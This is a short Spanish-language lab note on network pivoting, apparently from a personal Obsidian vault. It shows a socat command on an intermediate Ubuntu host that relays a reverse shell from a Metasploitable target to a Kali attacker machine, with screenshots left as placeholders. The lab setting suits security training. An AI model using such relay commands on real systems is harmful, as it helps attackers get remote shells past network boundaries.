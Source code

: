 [[Lab Pivoting, Tunneling - Synfonos]]
#pivoting 
Dentro de la máquina Ubuntu intermedia, debemos ejecutar este comando para obtener una reverse shell de la máquina objetivo final hacia la máquina kali atacante, por lo que en primer lugar nos ponemos en escucha con netcat desde la máquina Kali:
![[Pasted image 20240615203355.png]]

Y en la máquina Ubuntu ponemos el siguiente comando:
```bash
socat tcp-l:443,fork,reuseaddr tcp:192.168.0.30:443
```

![[Pasted image 20240615203400.png]]

Y ahora la máquina ubuntu estará preparada para servir como puente y enviar la reverse shell a la kali, de tal forma, que todo el tráfico que reciba la máquina ubuntu por el puerto 443 lo va a enviar a la máquina kali por el mismo puerto, por lo que ahora si ejecutamos el comando para obtener una reverse shell, la habremos recibido desde la metasploitable a la máquina ubuntu:

![[Pasted image 20240615203405.png]]

Y en Kali recibimos la conexión:

![[Pasted image 20240615203410.png]]
